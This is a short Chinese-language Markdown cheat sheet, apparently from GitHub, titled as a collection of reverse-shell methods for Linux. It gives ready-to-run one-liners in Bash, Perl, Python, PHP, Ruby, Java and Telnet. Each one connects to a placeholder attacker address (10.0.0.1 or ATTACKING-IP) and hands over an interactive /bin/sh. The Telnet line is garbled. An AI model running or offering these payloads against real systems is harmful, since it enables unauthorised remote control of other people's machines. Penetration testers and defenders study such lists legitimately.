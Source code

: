 #Linux环境
##反弹shell的方法
**Bash [不通用，跟linux发行版本有关，在ubuntu上测试成功]**

	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
	
**PERL**

	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	
**Python**

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

**PHP**

	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

**Ruby**

	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

**Java**

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

**Telnet**

	 rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p